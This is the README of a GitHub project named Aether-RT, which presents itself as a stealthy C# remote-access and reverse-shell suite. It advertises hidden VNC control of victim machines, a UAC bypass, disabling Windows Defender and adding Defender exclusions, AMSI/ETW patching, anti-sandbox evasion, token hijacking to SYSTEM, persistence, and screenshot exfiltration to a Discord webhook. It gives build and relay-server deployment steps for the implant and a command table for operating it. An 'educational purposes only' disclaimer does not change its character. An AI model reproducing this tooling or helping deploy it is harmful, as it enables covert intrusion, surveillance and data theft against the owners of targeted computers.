


<div align="center">



# 🌐 Aether-RT
### Remote Terminal Control System

<br />

[](https://docs.microsoft.com/en-us/dotnet/csharp/)
[](https://dotnet.microsoft.com/)
[](https://mqtt.org/)
[](https://microsoft.com/)

<br />

**A high-performance, stealthy, and decentralized remote administration / reverse shell suite built in C#.**

---

### 🏛️ Developed & Coded By
## **konpep**

---

### 📽️ Feature Showcase
<video src="demo.mp4" width="100%" controls autoplay loop>
  Your browser does not support the video tag. <a href="demo.mp4">Download Demo Video</a>
</video>

<br />

---

### ✨ Key Features

**📡 Decentralized Communication**
Uses public MQTT brokers (e.g., `broker.hivemq.com`) to orchestrate machines without requiring a centralized C2 server or port forwarding.

**📺 Hidden VNC (hVNC) - v9.5 PRO**
Interactive remote desktop on a completely hidden virtual desktop. No password required, zero user interaction or interruption. Control mouse and keyboard in the background. WebSocket-based relay for high-speed streaming at 1280x720 @ 20+ FPS with full keyboard and mouse control.

**🛡️ Stealth UAC Bypass & Privilege Escalation**
Internal stealth engine using `computerdefaults.exe` hijack. Silently elevates to **ROOT/Administrator**.

**🛡️ Auto-Exclusions (v6.6)**
Automatically adds the installation directory and process to Windows Defender's exclusion list upon elevation, ensuring lifetime persistence.

**👻 Deep Stealth & Evasion**
- XOR-encrypted strings for all sensitive identifiers.
- Anti-VM, Anti-Sandbox, and Analysis detection.
- **UnDefend v2 (Defender Freeze):** Low-level NT API locking.
- **Binary Self-Protection:** Internal kernel-level file locking.
- **Autonomous Binary:** Single-file standalone executable (v6.6).
- AMSI and ETW runtime patching / bypass.

**📊 Real-time System Analytics**
Visual live-updating UI for tracking CPU, RAM, Upload, and Download speeds.

**📸 Discord Remote Screenshots**
Instantly capture and exfiltrate screen captures directly to a Discord Webhook.

**🔄 Auto-Persistence & ROOT Recovery**
Includes **Permanent ROOT Persistence** via high-integrity Scheduled Tasks.

<br />

---

### 🚀 Getting Started

#### 1. Configuration
Before compiling, you **must** set your unique communication channel.
Open both `Controller/Program.cs` and `Executor/Program.cs` and change the Secret ID to a random string.

```csharp
// Change this in BOTH Controller and Executor
static string secretId = "YOUR_UNIQUE_SECRET_ID_HERE";
```

#### 2. Build the Controller
```bash
cd Controller
dotnet build -c Release
```

#### 3. Build the Executor
```bash
cd Executor
dotnet publish -c Release --runtime win-x64 --self-contained true -p:PublishSingleFile=true
```

#### 4. Deploy the hVNC Relay Server
The hVNC system requires a WebSocket relay server running on a dedicated host.

**Recommended Host:** `katabump.com` (or any VPS with public IP)

```bash
# On the relay server host
python3 relay_server.py
```

The relay server will:
- Auto-install required dependencies (websockets)
- Listen on `0.0.0.0:20113`
- Relay VNC frames from Executor → Controller
- Relay keyboard/mouse input from Controller → Executor

**Update the relay server address in `Controller/Program.cs`:**
```csharp
private string RELAY_SERVER = "ws://YOUR_RELAY_HOST:20113";
```

<br />

---

### 💻 Usage & Commands

| Command | Description |
| :--- | :--- |
| `mls` | Interactive visual menu to switch between targets. |
| `/stats` | Opens live GUI charts for CPU, RAM, and Network. |
| `/hvnc` | Launches high-speed hidden VNC viewer (1280x720 @ 20+ FPS). |
| `/uacbypass` | Silently elevates privileges to ROOT/Administrator. |
| `/freeze` | Manually triggers the UnDefend v2 Defender neutralization. |
| `/getsystem` | Escalates to NT AUTHORITY\SYSTEM via stealthy Token Hijacking. |
| `/screenshot` | Captures screen and sends to Discord Webhook. |
| `/info` | Retrieves detailed `systeminfo`. |
| `/list` | Retrieves running processes (`tasklist`). |
| `/clear` | Clears the terminal screen. |

<br />

---

### 🎮 hVNC (Hidden VNC) System

**High-Speed Remote Desktop Control**

The hVNC system provides interactive remote desktop access with:
- **Resolution:** 1280x720 @ 20+ FPS
- **Input:** Full keyboard (all keys) + mouse control
- **Protocol:** WebSocket-based relay for low latency
- **Stealth:** Runs on hidden virtual desktop, no user interruption

**Architecture:**
```
Executor (Target PC)
    ↓ (VNC Frames via WebSocket)
Relay Server (katabump.com:20113)
    ↓ (Frames via WebSocket)
Controller (Attacker)
    ↑ (Keyboard/Mouse Input via WebSocket)
```

**Keyboard Layout:**
- Full QWERTY layout with all symbols
- Function keys (F1-F12)
- Navigation cluster (INS, HOME, PGUP, DEL, END, PGDN)
- Arrow keys with proper scaling
- All modifier keys (SHIFT, CTRL, ALT, WIN, MENU)

<br />

---
**Detailed documentation on the integrated Anti-VM, Anti-AV, and Stealth mechanisms can be found in the [Security Features Guide](Security_Features.md).**

<br />

---

### 📁 File System Management

**Technical Overview (based on implementation)**

The file manager is implemented as a command/response protocol between Controller and Executor, using a dedicated WebSocket session to the relay server.

**Activation flow**
- The operator runs `/filesys` in Controller.
- Controller sends a trigger to Executor.
- Executor opens a `ClientWebSocket` to `RELAY_SERVER` and registers as:
  - `{"id":"<machineId>","role":"target"}`
- Controller then opens the File Manager UI and starts a separate WebSocket session as the controller role.

**Protocol commands**
- `LIST_DRIVES` -> returns JSON: `{"cmd":"DRIVES","drives":[...]}`
- `LIST_DIR` -> returns JSON: `{"cmd":"DIR","items":[...]}`
- `DOWNLOAD` -> streams `FILE_CHUNK` messages (`chunk`, `total`, base64 `data`)
- `DELETE` -> deletes file/folder and returns `{"status":"OK"}`
- `RENAME` -> uses `oldPath|newPath` and returns `{"status":"OK"}`

**Directory listing format**
- Directories and files are returned in one list with metadata:
  - `name`
  - `type` (`DIR` or `FILE`)
  - `size` (human-readable for files)
  - `modified` (format: `yyyy-MM-dd HH:mm`)

**Transfer behavior**
- Download is chunked in 50 KB parts (`chunkSize = 50000`) and encoded in Base64.
- Controller reconstructs content from received chunks and saves via Save dialog.

**Current implementation note**
- The Controller UI includes an Upload button and sends `UPLOAD`.
- In the current Executor command switch, `UPLOAD` handling is not implemented yet.
- So browsing, listing, download, delete, and rename are implemented; upload appears incomplete in this version.

<div align="center">

</div>

<br />

---

### ⚠️ Disclaimer
**Educational Purposes Only**
This software is provided strictly for educational purposes and unauthorized testing is prohibited. The author assumes no liability for any misuse or damage.

<br />

---

*Console Built with ♥ using C# and MQTTnet*

</div>
